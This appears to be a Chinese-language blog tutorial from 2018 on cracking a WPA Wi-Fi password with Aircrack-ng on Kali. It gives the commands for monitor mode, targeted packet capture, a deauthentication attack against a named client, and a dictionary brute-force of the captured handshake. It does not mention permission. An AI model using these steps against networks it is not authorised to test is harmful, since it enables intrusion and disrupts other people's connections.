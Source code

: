 ```yaml
---
title: Aircrack-ng 破解WIFI密码
date: 2018-09-20 
tags: kali
layut: post
music: 27968003
---
```


### 支持监听模式的无线网卡
我这里使用的是**rt3070**
一般**8187**和**3070**的网卡都可以开启监听模式。
![无线网卡](http://da1sy.github.io/assets/images/9-Yue/wifi-1.jpg)
### 1.网卡开启监听模式
> ⚡/home/da1sy # airmon-ng start wlan1

![1](http://da1sy.github.io/assets/images/9-Yue/wifi-2.jpg)
开启监听模式后网卡名子后坠都会更改为mon

### 2.搜索广播中的WIFI
> ⚡/home/da1sy # airodump-ng -a wlan1mon

![2](http://da1sy.github.io/assets/images/9-Yue/wifi-3.jpg)
### 3.对指定的网络进行抓包
> ⚡/home/da1sy/wifi # airodump-ng -w add --bssid 34:96:72:9B:73:7F -c 7 wlan1mon

![3](http://da1sy.github.io/assets/images/9-Yue/wifi-4.jpg)
**-w**是要保存的包名，**--bssid**是目标网络的MAC地质，**-c**是该网络的信道
### 如果抓不到握手包，就用下面命令让目标重新连接网络
> ⚡/home/da1sy/wifi # aireplay-ng -0 5 -a 34:96:72:9B:73:7F  -c 9C:2E:A1:E8:BC:B7 wlan1mon

![4](http://da1sy.github.io/assets/images/9-Yue/wifi-5.jpg)

#### 如果出现 **WPA handshake:34:96:72:9B:73:7F** 就是已经抓到了握握手包，可以继续下一步操作
![5](http://da1sy.github.io/assets/images/9-Yue/wifi-6.jpg)
### 5.开始暴力破解
> ⚡/home/da1sy/wifi # aircrack-ng -w /media/da1sy/软件/DA1SY/password/supper955.txt add-01.cap

#### **-w**后面跟的是字典文件，最后面是抓到的包名
![6](http://da1sy.github.io/assets/images/9-Yue/wifi-00.gif)

最后就是坐等，这个猜解的快慢取决于GPU的运算能力

**最后成功截图**
![7](http://da1sy.github.io/assets/images/9-Yue/wifi-8.png)

